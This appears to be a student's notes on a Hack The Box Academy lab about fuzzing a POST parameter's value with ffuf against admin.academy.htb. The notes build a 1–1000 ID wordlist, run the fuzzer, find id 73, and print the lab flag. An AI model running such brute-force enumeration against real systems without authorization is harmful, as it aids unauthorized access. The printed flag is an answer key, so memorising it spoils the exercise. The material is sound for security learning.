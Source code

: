```yaml
---
sticker: lucide//code
---
```

After fuzzing a working parameter, we now have to fuzz the correct value that would return the `flag` content we need. This section will discuss fuzzing for parameter values, which should be fairly similar to fuzzing for parameters, once we develop our wordlist.

---

## Custom Wordlist

When it comes to fuzzing parameter values, we may not always find a pre-made wordlist that would work for us, as each parameter would expect a certain type of value.

For some parameters, like usernames, we can find a pre-made wordlist for potential usernames, or we may create our own based on users that may potentially be using the website. For such cases, we can look for various wordlists under the `seclists` directory and try to find one that may contain values matching the parameter we are targeting. In other cases, like custom parameters, we may have to develop our own wordlist. In this case, we can guess that the `id` parameter can accept a number input of some sort. These ids can be in a custom format, or can be sequential, like from 1-1000 or 1-1000000, and so on. We'll start with a wordlist containing all numbers from 1-1000.

There are many ways to create this wordlist, from manually typing the IDs in a file, or scripting it using Bash or Python. The simplest way is to use the following command in Bash that writes all numbers from 1-1000 to a file:

  Value Fuzzing

```shell-session
smoothment@htb[/htb]$ for i in $(seq 1 1000); do echo $i >> ids.txt; done
```

Once we run our command, we should have our wordlist ready:

  Value Fuzzing

```shell-session
smoothment@htb[/htb]$ cat ids.txt

1
2
3
4
5
6
<...SNIP...>
```

Now we can move on to fuzzing for values.

---

## Value Fuzzing

Our command should be fairly similar to the `POST` command we used to fuzz for parameters, but our `FUZZ` keyword should be put where the parameter value would be, and we will use the `ids.txt` wordlist we just created, as follows:

  Value Fuzzing

```shell-session
smoothment@htb[/htb]$ ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.0.2
________________________________________________

 :: Method           : POST
 :: URL              : http://admin.academy.htb:30794/admin/admin.php
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : id=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

<...SNIP...>                      [Status: xxx, Size: xxx, Words: xxx, Lines: xxx]
```

We see that we get a hit right away. We can finally send another `POST` request using `curl`, as we did in the previous section, use the `id` value we just found, and collect the flag.

# Question
---
![](../images/Pasted%20image%2020250129160543.png)

So, we need to create the `ids.txt` wordlist, let's use the following command:

`for i in $(seq 1 1000); do echo $i >> ids.txt; done`

![](../images/Pasted%20image%2020250129160645.png)

We can do `wc -l ids.txt` to check that indeed it has 1000 elements. 

Let's proceed with the fuzzing:

`ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'`

![](../images/Pasted%20image%2020250129160803.png)

Let's filter out by size 768: `-fs 768`:

`ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 768 -ic `

```
ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 768 -ic -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://admin.academy.htb:49384/admin/admin.php
 :: Wordlist         : FUZZ: /home/htb-ac-1340293/ids.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : id=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 768
________________________________________________

73                      [Status: 200, Size: 787, Words: 218, Lines: 54, Duration: 77ms]
```

We got it, `73`, let's use curl now in order to collect the flag:

`curl http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=73' -H 'Content-Type: application/x-www-form-urlencoded' -s | grep HTB{`

```
curl http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=73' -H 'Content-Type: application/x-www-form-urlencoded' -s | grep HTB{
<div class='center'><p>HTB{p4r4m373r_fuzz1n6_15_k3y!}</p></div>
```

Flag is: `HTB{p4r4m373r_fuzz1n6_15_k3y!}`

